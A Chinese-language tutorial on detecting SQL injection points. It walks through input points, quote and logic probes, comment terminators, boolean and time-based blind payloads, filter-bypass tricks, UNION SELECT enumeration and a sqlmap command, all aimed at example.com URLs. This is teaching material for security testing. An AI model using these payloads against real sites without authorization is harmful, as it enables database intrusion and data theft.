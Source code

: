 # 如何判断SQL注入点

以下是系统性的注入点判断方法和操作步骤：

## 1. 识别输入点
**检测位置**：

> URL查询参数（如`?id=1`）
>
> 表单输入字段（登录框/搜索框）
>
> HTTP头部（Cookie/User-Agent/Referer）
>
> REST API参数（JSON/XML数据）

## 2. 初步探测
### （1）单引号测试
```http
http://example.com/?id=1'
```

预期结果：

> 数据库错误（如MySQL的"语法错误"）
>
> 500服务器错误
>
> 页面布局异常

### （2）逻辑测试

```http
正常情况：http://example.com/?id=1
恒真条件：http://example.com/?id=1' AND '1'='1
恒假条件：http://example.com/?id=1' AND '1'='2
```

对比观察：

> 恒真条件返回正常页面
>
> 恒假条件返回空白/错误页面

## 3. 参数类型判断

### （1）数字型参数

```http
原始请求：http://example.com/?id=1
修改为：http://example.com/?id=1+1
```

判断依据：

> 若返回`id=2`的结果则为数字型
>
> 支持运算表达式（如3-2/5*1）

### （2）字符型参数

```http
原始请求：http://example.com/?id=user
修改为：http://example.com/?id=user'||'test
```

判断依据：

> 返回`usertest`相关结果
>
> 需要闭合引号（'或"）

## 4. 注释符验证

```sql
MySQL：--+ 或 #
MSSQL：--
Oracle：--
```

**测试用例**：

```http
http://example.com/?id=1'--+
http://example.com/?id=1' ORDER BY 3#
```

## 5. 盲注检测

### （1）布尔型检测

```http
正常：http://example.com/?id=1' AND 1=1--+
异常：http://example.com/?id=1' AND 1=2--+
```

判断方法：

> 对比两个请求的响应差异
>
> 检查页面元素/内容长度变化
>

### （2）时间型检测

```http
MySQL：http://example.com/?id=1' AND SLEEP(5)--+
MSSQL：http://example.com/?id=1'; WAITFOR DELAY '0:0:5'--
```

判断标准：响应时间显著增加（≥5秒）

## 6. 过滤规则测试

### （1）关键字绕过

```http
大小写混合：hTtp://example.com/?id=1' uNIoN sELecT 1,2,3--+
内联注释：http://example.com/?id=1'/*!UNION*/SELECT 1,2,3--+
```

### （2）特殊字符绕过

```http
URL编码：%27 → '，%20 → 空格
双重编码：%2527 → '，%253C → <
```

## 7. 联合查询验证

```http
步骤1：确定字段数
http://example.com/?id=1' ORDER BY 5--+

步骤2：验证回显位置
http://example.com/?id=-1' UNION SELECT 1,2,3--+
```

成功标志：

> 页面显示数字2或3的位置
>
> 可在数字位插入SQL函数测试（如version()）

## 8. 工具辅助验证

```bash
使用sqlmap检测：
sqlmap -u "http://example.com/?id=1" --batch --level=3
```

关键输出：

> 存在可注入参数标识
>
> 数据库类型确认

![Snipaste_2025-04-19_12-48-05](./assets/images/Snipaste_2025-04-19_12-48-05.png)

```
graph TD
A[开始] --> B{识别输入点}
B --> |成功| C[单引号测试]
B --> |失败| Z[结束]
C --> D{是否报错}
D --> |是| E[确认字符型注入]
D --> |否| F[逻辑测试]
F --> G{页面变化}
G --> |有差异| H[存在注入漏洞]
G --> |无差异| I[尝试盲注测试]
I --> J{时间延迟/布尔结果}
J --> |存在差异| H
J --> |无差异| Z
```

